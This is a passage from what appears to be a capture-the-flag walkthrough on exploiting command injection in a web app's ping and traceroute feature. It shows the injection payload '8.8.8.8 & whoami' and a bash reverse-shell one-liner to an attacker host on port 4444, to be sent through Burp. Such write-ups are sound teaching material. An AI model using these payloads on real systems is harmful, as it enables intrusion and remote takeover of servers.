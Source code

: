 Now that we saw both the manual & automated way of exploiting SQL injections, let’s proceed with solving the box.

The commands being used on the welcome page are “traceroute” and “ping” so this specific functionality of the application clearly talks to the operating system. Let’s see if it’s vulnerable to command injection. Add the following in the input field and execute the code.

```text
8.8.8.8 & whoami
```

What the above command does is run the the preceding command \(ping 8.8.8.8\) in the background and execute the whoami command.

We get back the following result. It’s definitely vulnerable! The web server is running with the privileges of the web daemon user www-data.

![](../images/max/486/1*K3dFDGqCBL3kKmpSaMs71g.png)

Since we can run arbitrary commands using this tool, let’s get it to send a reverse shell back to our attack box.

**Note**: It’s not necessary to do this using Burp.

First, intercept the request with Burp and send it to Repeater \(right click &gt; Send to Repeater\).

Go to pentestmonkey [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and grab the bash reverse shell. Change the IP address and port to those applicable to your attack machine.

```text
/bin/bash -i >& /dev/tcp/10.10.14.6/4444 0>&1
```

Highlight the entire string and click on CTRL+U to URL encode it.

![](../images/max/465/1*4kzlbFV-7uYIf1JzpmDEsA.png)
